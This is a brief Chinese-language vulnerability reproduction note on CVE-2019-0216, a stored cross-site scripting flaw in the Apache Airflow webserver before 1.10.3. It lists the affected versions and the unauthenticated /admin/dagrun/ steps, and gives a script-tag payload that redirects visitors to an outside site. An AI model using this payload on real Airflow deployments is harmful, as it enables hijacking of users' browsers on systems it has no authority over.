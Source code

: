 # （CVE-2019-0216）Apache Airflow 储存型xss

## 一、漏洞简介

Apache Airflow 1.10.2及之前版本中的airflow webserver服务存在跨站脚本漏洞，该漏洞源于WEB应用缺少对客户端数据的正确验证。攻击者可利用该漏洞执行客户端代码。

## 二、漏洞影响

Apache Airflow < 1.10.3

## 三、复现过程

访问/admin/dagrun/（默认是不需要密码）

创建一个项目

1.png

返回列表，可以看到点击“运行”可以让你输入HTML代码

2.png

可以在里面输入代码

```html
<script>_a="https://www.0-sec.org"</script>
<script>document.location=_a</script>
```

3.png

可直接造成储存型xss

4.png
